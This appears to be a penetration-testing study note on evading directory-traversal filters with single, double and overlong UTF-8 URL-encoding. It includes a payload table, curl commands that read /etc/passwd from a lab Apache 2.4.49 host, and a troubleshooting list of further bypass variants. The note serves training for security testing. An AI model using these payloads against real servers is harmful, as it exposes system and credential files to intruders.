

---
tags:
  - phase/exploitation
---

# Encoding special characters

> [!tip] Quick Reference — Traversal Encoding
> | Technique | Payload fragment |
> |-----------|-------------------|
> | Single URL-encode dots | `%2e%2e/` |
> | Single URL-encode dots + slash | `%2e%2e%2f` |
> | Double URL-encode | `%252e%252e%252f` |
> | Overlong UTF-8 / Unicode dot | `%c0%ae%c0%ae/` |
> | Windows backslash, encoded | `%2e%2e%5c` |
> | Null byte (legacy PHP <5.3.4) | `%00` |

> [!example] Plain traversal gets blocked
> Trying multiple `../` sequences against the vulnerable Apache 2.4.49 host (WEB18) with `curl` returns a 404, regardless of how many `../` we add:
> ```sh
> curl http://192.168.50.16/cgi-bin/../../../../etc/passwd
> ```
> Response: `404 Not Found`. A filter is stripping the `../` sequences.


> [!example] Bypassing the filter with encoded dots
> Because `../` is a well-known attack pattern, it's often filtered by the server, a WAF, or the app. URL (percent) encoding can slip past: encode each dot as `%2e`:
> ```sh
> curl http://192.168.50.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
> ```
> This returns `/etc/passwd` (`root:x:0:0:root:/root:/bin/bash`, ...) — the encoded dots bypassed the filter.


> [!info] Why encoding evades filters
> URL encoding normally just makes characters safe to transmit, but it doubles as a filter bypass: a filter that only checks for the plain text `../` misses the encoded form `%2e%2e/`. Once the request is past the filter, the server decodes it and interprets it as a valid path.


> [!example] Double URL-encoding when single encoding is also stripped
> Some filters decode the request once before checking it, so a single-encoded `%2e%2e/` still gets caught. Encode the `%` itself (`%` → `%25`) to make the filter decode into `../` only after its check has already passed:
> ```sh
> curl http://192.168.50.16/cgi-bin/%252e%252e/%252e%252e/%252e%252e/%252e%252e/etc/passwd
> ```
> If that still fails, try the overlong UTF-8 form of a dot (`%c0%ae`) or encode the slash too (`%2f`) — different filters normalize differently.

## Visual Flow



> [!success] What success looks like
> The plain `../` request returns a 404 "Not Found", but the encoded version `%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd` returns the file: `root:x:0:0:root:/root:/bin/bash`.

> [!danger] Common errors
> - Encoded payload still blocked → the filter may decode once; try double URL-encoding (`%252e`). See [[🔣 Encoding Reference]].
> - Forgot to encode every dot → encode each `.` as `%2e`; partial encoding often still trips the filter.
> - Slash also filtered → encode `/` as `%2f` as well.
> - Double-encoding still blocked → try the overlong UTF-8 dot `%c0%ae%c0%ae/` — some servers' Unicode normalization decodes it to `../` even though it isn't standard percent-encoding.
> - Windows target ignores `../` → swap in an encoded backslash (`%2e%2e%5c`) since some Windows apps only traverse on `\`.
> Full list: [[⚠️ Common Errors & Troubleshooting]]

> [!tip] Beginner note
> URL (percent) encoding swaps a character for its ASCII code with a `%` in front, so `.` becomes `%2e`. Simple filters only look for the literal text `../`, but the server still decodes `%2e%2e/` back into `../` — so the encoded version sneaks past the filter and still works.

---
%% graph-links %%
## Related
- [[Identifying and exploiting directory traversals]]
- [[Absolute vs relative paths]]

> [!info] Navigation
> Section: [[Web Applications/Common Web Application Attacks/Directory Traversal/_index|Directory Traversal]] · Home: [[🏠 Home]]

